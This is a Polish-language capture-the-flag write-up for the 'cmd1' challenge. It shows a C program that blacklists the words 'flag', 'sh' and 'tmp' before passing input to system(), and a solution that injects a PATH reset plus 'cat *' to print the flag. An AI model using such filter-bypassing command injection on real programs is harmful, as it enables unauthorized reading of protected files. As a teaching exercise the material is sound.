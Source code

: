 ## cmd1 - 1 pt ##

Flaga: `mommy now I get what PATH environment is for :)`

Kod źródłowy **cmd1.c**:

```c
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
	int r=0;
	r += strstr(cmd, "flag")!=0;
	r += strstr(cmd, "sh")!=0;
	r += strstr(cmd, "tmp")!=0;
	return r;
}
int main(int argc, char* argv[], char** envp){
	putenv("PATH=/fuckyouverymuch");
	if(filter(argv[1])) return 0;
	system( argv[1] );
	return 0;
}
```
* Problemem zadania jest wyczyszczona zmienna środowiskowa PATH i zamieniona na sympatyczne `/fuckyouverymuch`
* Implikuje to w zadaniu, że nie można do programów odwoływać się za pomocą nazwy binarki, wymagane jest podanie pełnej ścieżki do binarki
* Dodatkowo "blacklistowane" są takie fragmenty polecenia jak `flag`, `sh`, `tmp` - nie można odwołać się bezpośrednio do flagi, wymagane jest "printowanie" wszystkich plików w katalogu z zadaniem
* Najprostsze rozwiązanie to uruchomienie binarki wraz z ustawioną zawartością zmiennej PATH dla polecenia wypisującego flagę (wtedy już oczywiście można odwołać się po nazwie binarki, bez pełnej ścieżki) tj: `./cmd1 "PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games; cat *"`
* Uruchomienie polecenia:
```
cmd1@ubuntu:~$ ./cmd1 "PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games; cat *"
[...]
mommy now I get what PATH environment is for :)
```
